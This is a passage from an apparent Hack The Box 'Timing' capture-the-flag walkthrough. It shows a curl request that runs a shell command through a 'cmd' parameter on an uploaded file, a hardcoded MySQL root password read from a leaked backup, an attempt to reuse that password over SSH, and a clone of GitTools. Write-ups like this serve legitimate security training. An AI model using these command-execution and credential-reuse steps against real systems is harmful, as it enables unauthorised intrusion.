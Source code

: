 A backup file, we definitely want to have a look at that. First copy it to the uploads folder that we have access to:

```
┌──(root💀kali)-[~/htb/timing]
└─# curl 'http://timing.htb/image.php?img=images/uploads/e087b23f34a4f7d6c841db302e7d88ca_pencer.jpg&cmd=cp+/opt/source-files-backup.zip+/var/www/html/images/uploads/'

```

Now we can download it:

![](https://miro.medium.com/max/1400/1*6nC_lupU4z63mo5p5HyGTg.png)

Download backup.zip using curl

Unzip it and have a look:

![](https://miro.medium.com/max/1400/1*iewntDlcSvqVNtKnGmzy7w.png)

Unzip backup file

Looking through the files we find something interesting in db_conn.php:

```
┌──(root💀kali)-[~/htb/timing/backup]
└─# cat db_conn.php                  
<?php
$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', '4_V3Ry_l0000n9_p422w0rd');

```

Could it be that aaron has reused that mysql password for ssh access:

```
┌──(root💀kali)-[~/htb/timing/extracted]
└─# ssh aaron@timing.htb
aaron@timing.htb's password: 
Permission denied, please try again.

```

Ok that didn’t work. However looking further at the backup files we see there’s a Git repository. Seems a little suspicious!

Let’s use GitTools like we did on [Devzat](https://www.hackthebox.com/home/machines/profile/398) and extract the source files. Download them if needed:

```
┌──(root💀kali)-[~/htb/devzat]
└─# git clone https://github.com/internetwache/GitTools.git
Cloning into 'GitTools'...
remote: Enumerating objects: 229, done.
remote: Counting objects: 100% (20/20), done.
remote: Compressing objects: 100% (16/16), done.
remote: Total 229 (delta 6), reused 7 (delta 2), pack-reused 209
Receiving objects: 100% (229/229), 52.92 KiB | 1.65 MiB/s, done.
Resolving deltas: 100% (85/85), done.

```
